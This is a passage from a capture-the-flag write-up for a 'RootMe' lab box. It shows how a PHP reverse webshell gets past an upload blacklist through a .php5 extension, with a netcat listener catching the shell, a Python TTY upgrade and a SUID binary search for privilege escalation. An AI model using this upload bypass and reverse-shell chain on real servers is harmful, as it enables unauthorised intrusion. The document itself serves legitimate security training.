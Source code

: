 I tried to upload the Pentestmonkey PHP webshell (renamed evil.php) but was given a bright red "PHP não é permitido!" message.  Sounds like I'll have to actually _try_ to get the LFI.
![rootme webshell upload1](/images/2022/rootmeUpload1.png){:class="img-responsive"}

Next, I attempted to rename the file to test the upload blacklist.  I tried things like evil.jpeg.php and evil.php.jpeg, but neither of those would run (they would upload though!).  I finally got it by renaming evil.php to evil.php5, where it uploads and we recieve a shell!
![rootme webshell upload2](/images/2022/rootmeUpload2.png){:class="img-responsive"} 
![rootme webshell uploads page](/images/2022/rootmeUploads.png){:class="img-responsive"}
```
nc -lvnp 9501
listening on [any] 9501 ...
connect to [darkwire] from (UNKNOWN) [10.10.121.102] 51770
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:35:33 up  1:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
When I get a shell, I like to upgrade it with Python to a TTY so I can use sudo and all that other good stuff.  
To do so, I used `python3 -c 'import pty;pty.spawn("/bin/bash")'`.
We are currently www-data, which is a low-privilege account, so let's get to work.
I always check the home directory of my user to see if there are any interesting files there.  So:
```
www-data@rootme:/$ cd ~
cd ~
www-data@rootme:/var/www$ ls
ls
html  user.txt
```
There's the first flag!

## Escalation
The goal in this CTF is to get root on the box.  User is not enough!  
The first thing I like to check is if there are any SUID binaries on the system.
```
www-data@rootme:/var/www$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
```